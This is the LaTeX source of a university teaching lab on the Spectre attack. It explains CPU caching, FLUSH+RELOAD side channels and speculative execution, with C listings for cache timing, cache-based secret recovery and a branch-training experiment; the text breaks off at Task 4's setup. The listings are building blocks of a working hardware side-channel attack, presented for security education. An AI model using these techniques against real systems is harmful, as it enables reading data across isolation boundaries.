%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\commonfolder}{../../common-files}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}
\usepackage{hyperref}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.\xspace}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.\xspace}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.\xspace}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website.\xspace}

\newcommand{\seedenvironmentA}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website.\xspace}

\newcommand{\seedenvironmentB}{This lab has been tested on our pre-built
Ubuntu 20.04 VM, which can be downloaded from the SEED website.\xspace}

\newcommand{\seedenvironmentC}{This lab has been tested on the SEED
Ubuntu 20.04 VM. You can download a pre-built image from the SEED website, 
and run the SEED VM on your own computer. However,
most of the SEED labs can be conducted on the cloud, and 
you can follow our instruction to create a SEED VM on the cloud.\xspace}

\newcommand{\seedenvironmentAB}{This lab has been tested on our pre-built
Ubuntu 16.04 and 20.04 VMs, which can be downloaded from the SEED website.\xspace}

\newcommand{\nodependency}{Since we use containers to set up the lab environment, 
this lab does not depend much on the SEED VM. You can do this lab
using other VMs, physical machines, or VMs on the cloud.\xspace}

\newcommand{\adddns}{You do need to add the required IP address mapping to
the \texttt{/etc/hosts} file.\xspace}






\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}






\lhead{\bfseries SEED Labs -- Spectre Attack Lab}

\def \code#1 {\fbox{\scriptsize{\texttt{#1}}}}

\begin{document}


\newcommand{\spectreFigs}{./Figs}

\begin{center}
{\LARGE Spectre Attack Lab}
\end{center}


\seedlabcopyright{2018}



% *******************************************
% SECTION
% ******************************************* 
\section{Introduction}

Discovered in 2017 and publicly disclosed in January 2018, the Spectre
attack exploits critical vulnerabilities existing in many modern
processors, including those from Intel, AMD, and
ARM~\cite{Kocher2018spectre}. The vulnerabilities
allow a program to break inter-process and intra-process isolation, so a
malicious program can read the data from the area that is not accessible to
it.  Such an access is not allowed by the hardware protection mechanism
(for inter-process isolation) or software protection mechanism (for
intra-process isolation), but a vulnerability exists in the design of CPUs
that makes it possible to defeat the protections.  Because the flaw exists
in the hardware, it is very difficult to fundamentally fix the problem,
unless we change the CPUs in our computers. The Spectre vulnerability
represents a special genre of vulnerabilities in the design of CPUs. Along
with the Meltdown vulnerability, they provide an invaluable lesson for
security education. 

\underline{The learning objective} of this lab is for students to gain first-hand
experiences on the Spectre attack. The attack itself is quite
sophisticated, so we break it down into several small steps, each of which
is easy to understand and perform.  Once students understand each step, it
should not be difficult for them to put everything together to perform the
actual attack. This lab covers a number of topics
described in the following:

\begin{itemize}[noitemsep]
\item Spectre attack
\item Side channel attack
\item CPU caching
\item Out-of-order execution and branch prediction  
      inside CPU microarchitecture
\end{itemize}



\paragraph{Readings and videos.}
Detailed coverage of the Spectre attack can be found in the following:

\begin{itemize}
\item Chapter 14 of the SEED Book, \seedbook
\item Section 8 of the SEED Lecture, \seedcsvideo
\end{itemize}


\paragraph{Lab Environment.} \seedenvironmentAB

When using this lab, instructors should keep the followings in mind:
First, although the Spectre vulnerability
is a common design flaw inside Intel, AMD, and ARM CPUs, we have
only tested the lab activities on Intel CPUs.
Second, Intel is working on fixing this
problem in its CPUs, so if a student's computer uses new Intel CPUs, the
attack may not work. As of May 2021, it is not a problem for most students,
but as time goes on, problems may arise. 


\paragraph{Acknowledgment} This lab was developed with the help of 
Kuber Kohli and Hao Zhang,
graduate students in the Department of
Electrical Engineering and Computer Science at Syracuse University.




% *******************************************
% SECTION
% ******************************************* 
%\section{Code Compilation}
%\section{Tasks 1-2: Side Channel Attacks}


\newcommand{\sideChannelFigs}{../Meltdown_Attack/Figs}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% *******************************************
% SECTION
% *******************************************
\section{Code Compilation}
\label{sidechannel:sec:compilation}


For most of our tasks, you need to add \texttt{-march=native}
flag when compiling the code with
\texttt{gcc}. The \texttt{march} flag tells the compiler to enable all
instruction subsets supported by the local machine.
For example, we compile \texttt{myprog.c} using the following command:

\begin{lstlisting}
$ gcc -march=native -o myprog myprog.c
\end{lstlisting}





% *******************************************
% SECTION
% ******************************************* 
\section{Tasks 1 and 2: Side Channel Attacks via CPU Caches}

Both the Meltdown and Spectre attacks use CPU cache as a side channel to steal
a protected secret. The technique used in this side-channel attack is called 
FLUSH+RELOAD~\cite{Yarom2014}. 
We will study this technique first. The code developed in these two tasks will be 
used as a building block in later tasks. 


A CPU cache is a hardware cache used by the CPU of a computer 
to reduce the average cost (time or energy) to access
data from the main memory. Accessing data from CPU cache is much faster
than accessing from the main memory. When data are fetched from the main memory, they
are usually cached by the CPU, so if the same data are used again, the access
time will be much faster. Therefore, when a CPU needs to access some data, it
first looks at its caches. If the data is there (this is called cache hit), 
it will be fetched directly from there. If the data is not there (this is
called miss), the CPU will go to the main memory to get the data. The time 
spent in the latter case is significant longer. Most modern CPUs have
CPU caches. 



\begin{figure}[htb]
\centering
\includegraphics[width=0.9\textwidth]{\sideChannelFigs/cachehitmiss.pdf}
\caption{Cache hit and miss}
\label{sidechannel:fig:cachehitmiss}
\end{figure}


\subsection{Task 1: Reading from Cache versus from Memory}

The cache memory is used to provide data to the high speed processors at a faster speed. The
cache memories are very fast compared to the main memory. 
Let us see the time difference. In the following code (\texttt{CacheTime.c}), we 
have an array of size \texttt{10*4096}. We first access two of its elements,
\texttt{array[3*4096]} and \texttt{array[7*4096]}. Therefore, the pages 
containing these two elements will be cached. We then
read the elements from \texttt{array[0*4096]} to \texttt{array[9*4096]} and measure 
the time spent in the memory reading.
Figure~\ref{sidechannel:fig:cachehitmiss} illustrates the difference. 
In the code, Line \ding{192} reads the CPU's
timestamp (TSC) counter before the memory read, while Line \ding{193}
reads the counter after the memory read. Their difference is the time (in terms of number of
CPU cycles) spent in the memory read.  It should be noted that 
caching is done at the cache block level, not at the byte level. A typical cache block size 
is 64 bytes. We use \texttt{array[k*4096]}, so no two elements used in 
the program fall into the same cache block. 


\begin{lstlisting}[caption=\texttt{CacheTime.c}]
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[10*4096];

int main(int argc, const char **argv) {
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  
  // Initialize the array
  for(i=0; i<10; i++) array[i*4096]=1;

  // FLUSH the array from the CPU cache
  for(i=0; i<10; i++) _mm_clflush(&array[i*4096]);

  // Access some of the array items
  array[3*4096] = 100;
  array[7*4096] = 200;

  for(i=0; i<10; i++) {
    addr = &array[i*4096];
    time1 = __rdtscp(&junk);                  (*@\ding{192}@*)
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;          (*@\ding{193}@*)
    printf("Access time for array[%d*4096]: %d CPU cycles\n",i, (int)time2);
  }
  return 0;
}
\end{lstlisting}


Please compile the following code using \texttt{gcc -march=native
CacheTime.c}, and run it.  Is the access of 
\texttt{array[3*4096]} and \texttt{array[7*4096]} faster than
that of the other elements? You should run the program at least 10 times 
and describe your observations. From the experiment,
you need to find a threshold
that can be used to distinguish these two types of memory access: accessing
data from the cache versus accessing data from the main memory.  This
threshold is important for the rest of the tasks in this lab.


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 2: Using Cache as a Side Channel}


\begin{figure}[htb]
\centering
\includegraphics[width=0.9\textwidth]{\sideChannelFigs/flushreload.pdf}
\caption{Diagram depicting the Side Channel Attack}
\label{sidechannel:fig:flushreload}
\end{figure}


The objective of this task is to use the side channel to extract a secret value used by the
victim function. Assume there is a victim  function that uses a secret value as index
to load some values from an array. Also assume that the secret value cannot be accessed from
the outside. Our goal is to use side channels to
get this secret value. The technique that we will be using is called 
FLUSH+RELOAD~\cite{Yarom2014}. Figure~\ref{sidechannel:fig:flushreload} illustrates the 
technique, which consists of three steps: 

\begin{enumerate}[noitemsep]

\item FLUSH the entire array from the cache memory to make sure the array is not cached. 

\item Invoke the victim function, which accesses one of the array
elements based on the value of the secret. This action causes 
the corresponding array element to be cached. 

\item RELOAD the entire array, and measure the time it takes to reload 
each element. If one specific element's loading time is fast, 
it is very likely that element is already in the cache. 
This element must be the one accessed by the victim function. 
Therefore, we can figure out what the secret value is.
\end{enumerate}


The following program uses the FLUSH+RELOAD technique to 
find out a one-byte secret value contained in the variable \texttt{secret}. 
Since there are 256 possible values for a one-byte secret, we 
need to map each value to an array element. The naive way is to define an
array of 256 elements (i.e., \texttt{array[256]}).  However, this does not
work. Caching is done at a block level, not at a byte level. If
\texttt{array[k]} is accessed, a block of memory containing this element  
will be cached. Therefore, the adjacent elements of \texttt{array[k]} 
will also be cached, making it difficult to infer what the secret is. 
To solve this problem, we create an array of \texttt{256*4096} 
bytes. Each element used in our RELOAD step is \texttt{array[k*4096]}. 
Because \texttt{4096} is larger than a typical cache block size (64 bytes), 
no two different elements \texttt{array[i*4096]} and \texttt{array[j*4096]} will
be in the same cache block.

Since \texttt{array[0*4096]} may fall into the same cache block as the variables 
in the adjacent memory, it may be accidentally cached due to the caching 
of those variables. Therefore, we should avoid using \texttt{array[0*4096]} in
the FLUSH+RELOAD method (for other index \texttt{k}, \texttt{array[k*4096]} does not
have a problem).
To make it consistent in the program, we use 
\texttt{array[k*4096 + DELTA]} for all \texttt{k} values, 
where \texttt{DELTA} is defined as a constant \texttt{1024}. 


\begin{lstlisting}[caption=\texttt{FlushReload.c}, label={sidechannel:list:flushreload}]
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[256*4096];
int temp;
unsigned char secret = 94;

/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;


  // Flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void victim()
{
  temp = array[secret*4096 + DELTA];
}

void reloadSideChannel() 
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
     addr = &array[i*4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD){
         printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
         printf("The Secret = %d.\n",i);
     }
  }	
}

int main(int argc, const char **argv) 
{
  flushSideChannel();
  victim();
  reloadSideChannel();
  return (0);
}
\end{lstlisting}
 

Please compile the program using \texttt{gcc} and run it (see Section~\ref{sidechannel:sec:compilation}
for compilation instruction).
It should be noted that the technique is not 100 percent accurate, and you may not 
be able to observe the expected output all the time. 
Run the program for at least 20 times, and count how many times 
you will get the secret correctly. You can also adjust the 
threshold \texttt{CACHE\_HIT\_THRESHOLD} to the one derived from
Task 1 (80 is used in this code). 







% *******************************************
% SECTION
% ******************************************* 
\section{Task 3: Out-of-Order Execution and Branch Prediction}

The objective of this task is to understand the out-of-order execution
in CPUs. We will use an experiment to help students observe
such kind of execution. 



\subsection{Out-Of-Order Execution} 

The Spectre attack relies on an important feature implemented in most
CPUs.  To understand this feature, let us see the following code. 
This code checks whether \texttt{x} is less than \texttt{size}, if so,
the variable \texttt{data} will be updated. Assume that the value of
\texttt{size} is 10, so if \texttt{x} equals \texttt{15}, 
the code in Line 3 will not be executed.  

\begin{lstlisting}
1  data = 0;
2  if (x < size) {   
3     data = data + 5; 
4  }
\end{lstlisting}
 

The above statement about the code example is true when looking from outside of the CPU.
However, it is not completely true if we get into the CPU, and look at the execution sequence
at the microarchitectural level. If we do that, we will find out that
Line 3 may be successfully executed even though the value of \texttt{x} is 
larger than \texttt{size}. This is due to an important optimization technique adopted by
modern CPUs. It is called out-of-order execution.


Out-of-order execution is an optimization technique that allows CPU to maximize the utilization of
all its execution units. Instead of processing instructions
strictly in a sequential order, a CPU executes them in parallel
as soon as all required resources are available.
While the execution unit of the current operation is occupied, other
execution units can run ahead.

In the code example above, at the microarchitectural level, Line 2 involves
two operations: load the value of \texttt{size} from the memory, 
and compare the value with \texttt{x}. If \texttt{size} is not in the CPU
caches, it may take hundreds of CPU clock cycles before that value is read.
Instead of sitting idle, modern CPUs try to predict the outcome 
of the comparison, and speculatively execute the branches based on
the estimation. Since such execution starts before the comparison even finishes,
the execution is called out-of-order execution. 
Before doing the out-of-order execution,  
the CPU stores its current state and value of registers. 
When the value of \texttt{size} finally arrives, 
the CPU will check the actual outcome. If the prediction is true, the speculatively
performed execution is committed and there is a significant performance gain. If the prediction
is wrong, the CPU will revert back to its saved state, 
so all the results produced by the out-of-order execution will be discarded like
it has never happened.  That is why from outside we see that Line 3 was
never executed.
Figure~\ref{spectre:fig:spectre} illustrates the out-of-order execution
caused by Line 2 of the sample code.


\begin{figure}[htb]
\centering

\includegraphics[width=0.75\textwidth]{\spectreFigs/spectre.pdf}
\caption{Speculative execution (out-of-order execution)}
\label{spectre:fig:spectre}
\end{figure}


Intel and several CPU makers made a severe mistake in the design of the out-of-order execution.
They wipe out the effects of the out-of-order execution on registers and memory
if such an execution is not supposed to happen, so the execution does not lead to
any visible effect. However, they forgot one thing, the effect on CPU caches.
During the out-of-order execution, the referenced memory is fetched into a register and is
also stored in the cache. If the results of the out-of-order execution have to be discarded,
the caching caused by the execution should also be discarded. Unfortunately, this is
not the case in most CPUs. Therefore, it creates an observable effect.
Using the side-channel technique described in Tasks 1 and 2, we
can observe such an effect. The Spectre attack cleverly uses this
observable effect to find out protected secret values.



%\paragraph{More details on speculative execution?} To understand 
%the benefit of speculative execution, Let us see some data. 
%When a micro-processor reads from the main memory i.e. RAM, the read
%timings are about 60 nanoseconds (60 billionths of a second). Even though
%it appears to be lightning fast to humans, to
%micro-processor it is a really long time. A micro-processors can have cycle times as short as
%2 nanoseconds. This cycle time is the time between one RAM access to the time when another
%access can be started. The cycle time are different than clock cycle which is number of cycles
%per second. So, to a microprocessor with cycle time with 2 nanosecond, 60 nanoseconds of read
%time is really long. The L2 cache are generally at least twice as fast as RAM while L1 cache
%are built directly in the micro-processor so the read is done at the micro-processor speed.


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{The Experiment}

In this task, we use an experiment to observe the effect caused by
an out-of-order execution. The code used in this experiment is shown below.
Some of the functions used in the code
is the same as that in the previous tasks, so they will not be repeated. 


\begin{lstlisting}[caption=\texttt{SpectreExperiment.c}, label=spectre:list:outoforder]
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

int size = 10;
uint8_t array[256*4096];
uint8_t temp = 0;

void victim(size_t x) 
{
  if (x < size) {                          (*@\ding{192}@*)
     temp = array[x * 4096 + DELTA];       (*@\ding{193}@*)
  }
}

int main() 
{
  int i;

  // FLUSH the probing array
  flushSideChannel();

  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {               (*@\ding{194}@*)
      victim(i);                           (*@\ding{195}@*)
  }

  // Exploit the out-of-order execution 
  _mm_clflush(&size);                      (*@\ding{80}@*)
  for (i = 0; i < 256; i++)  
      _mm_clflush(&array[i*4096 + DELTA]);
  victim(97);                              (*@\ding{196}@*)

  // RELOAD the probing array
  reloadSideChannel();
  return (0);
}
\end{lstlisting}


For CPUs to perform a speculative execution, they should be able to
predict the outcome of the if condition.  CPUs keep a record of the branches taken in the past,
and then use these past results to predict what branch should be taken in a 
speculative execution. 
Therefore, if we would like a particular branch to be taken in 
a speculative execution, we should train the CPU, so our selected branch 
can become the prediction result. The training is done 
in the \texttt{for} loop starting from Line \ding{194}. 
Inside the loop, we invoke \texttt{victim()} with a small argument (from 0 to 9). These values are
less than the value \texttt{size}, so the true-branch of the if-condition in Line \ding{192} is
always taken. This is the training phase, which essentially trains the CPU to expect the 
if-condition to come out to be true. 


Once the CPU is trained, we pass a larger value (\texttt{97})
to the \texttt{victim()} function (Line \ding{196}). This value is larger than \texttt{size},
so the false-branch of the if-condition inside \texttt{victim()} will be taken in
the actual execution, not the true-branch. However, we have flushed the variable \texttt{size}
from the memory, so getting its value from the memory may take a while. This is when the CPU
will make a prediction, and start speculative execution. 



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Task 3} 


Please compile the \texttt{SpectreExperiment.c} program 
shown in Listing~\ref{spectre:list:outoforder} (see Section~\ref{sidechannel:sec:compilation}
for the compilation instruction); 
run the program and describe your observations. 
There may be some noise in the side channel due to extra things cached by the
CPU, we will reduce the noise later, but for now you can execute the task multiple times to
observe the effects. Please observe whether Line \ding{193} is executed 
or not when \texttt{97} is fed into \texttt{victim()}.  
Please also do the followings:

\begin{itemize}
\item Comment out the line marked with \ding{80} and execute again. Explain your
observation. After you are done with this experiment, 
uncomment it, so the subsequent tasks are not affected.

\item Replace Line \ding{195} with \texttt{victim(i + 20)}; run the code again and
explain your observation. 
%Because \texttt{i + 20} is always larger than the value 
%of \texttt{size}, the false-branch of the if-condition in Line \ding{192} will always be 
%executed. Basically, we are training the CPU to go to the false-branch.
%That should affect the out-of-order execution when 
%\texttt{victim()} is called at Line \ding{195}.   
\end{itemize}
 



% *******************************************
% SECTION
% ******************************************* 
\section{Task 4: The Spectre Attack}


As we have seen from the previous task, we can get CPUs to execute a true-branch of an
if statement, even though the condition is false. If such an out-of-order execution does not
cause any visible effect, it is not a problem. However, most CPUs with this feature do not
clean the cache, so some traces of the out-of-order execution is left behind. The 
Spectre attack uses these traces to steal protected secrets. 


These secrets can be data in another process or data in the same process. 
If the secret data is in another process, the process isolation at the hardware level prevents 
a process from stealing data from another process. If the data is in the same process, 
the protection is usually done via software, such as sandbox mechanisms.  
The Spectre attack can be launched against both types of secret. However, 
stealing data from another process is much harder than stealing data from the same process. For
the sake of simplicity, this lab only focuses on stealing data from the same process. 

When web pages from different servers are opened inside a browser, they are often opened in the
same process. The sandbox implemented inside the browser will provide an isolated environment
for these pages, so one page will not be able to access another page's data. 
Most software protections rely on condition checks to decide whether an access should be
granted or not. With the Spectre attack, we can get CPUs to execute (out-of-order) 
a protected code branch even if the condition checks fails, essentially defeating
the access check.


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{The Setup for the Experiment} 


\begin{figure}[htb]
\centering
